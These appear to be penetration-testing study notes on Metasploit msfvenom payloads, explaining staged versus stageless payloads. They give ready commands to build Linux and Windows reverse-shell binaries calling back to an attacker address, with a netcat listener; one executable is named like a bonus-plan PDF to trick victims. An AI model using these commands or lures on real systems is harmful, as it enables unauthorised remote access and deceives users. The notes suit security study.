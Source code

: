 #### List Payloads
```shell-session
$ msfvenom -l payloads
```

### Staged vs. Stageless Payloads

#### Staged Payloads
- **Definition**: Staged payloads allow attackers to send more components of their attack over time, "setting the stage" for a more complex payload.
- **Example**: `linux/x86/shell/reverse_tcp`.
  - When executed via an exploit module in Metasploit, it sends a small initial stage to the target.
  - This stage calls back to the attacker's system to download and execute the rest of the payload, ultimately establishing a reverse shell.
- **Considerations**:
  - Requires configuring proper IPs and ports in Metasploit for successful execution.
  - Takes up memory space, which could limit the size of the payload.
  - The actions taken at each stage may vary depending on the payload.

#### Stageless Payloads
- **Definition**: Stageless payloads do not have stages; the entire payload is sent at once.
- **Example**: `linux/zarch/meterpreter_reverse_tcp`.
  - Sent in full across the network without needing a stage.
  - Beneficial in environments with limited bandwidth or high latency, where staged payloads might be unstable.
  - Potentially better for evasion due to less network traffic during execution.

#### Identifying Payload Types in Metasploit
- **Naming Convention**:
  - **Staged Payload**: Example - `linux/x86/shell/reverse_tcp`.
    - The name includes multiple stages, indicated by slashes `/`.
  - **Stageless Payload**: Example - `linux/zarch/meterpreter_reverse_tcp`.
    - The name is more compact, with all components (architecture, shell, and network communication) in a single function.

- **Quick Example**:
  - `windows/meterpreter/reverse_tcp` (Staged).
  - `windows/meterpreter_reverse_tcp` (Stageless).

- **Tip**: If the name is unclear, the payload description usually specifies whether it is staged or stageless.
## Building A Stageless Payload
#### Build It
```shell-session
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > createbackup.elf
```

#### NC Connection
```shell-session
$ sudo nc -lvnp 443
```
## Building a simple Stageless Payload for a Windows system
```shell-session
$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f exe > BonusCompensationPlanpdf.exe
```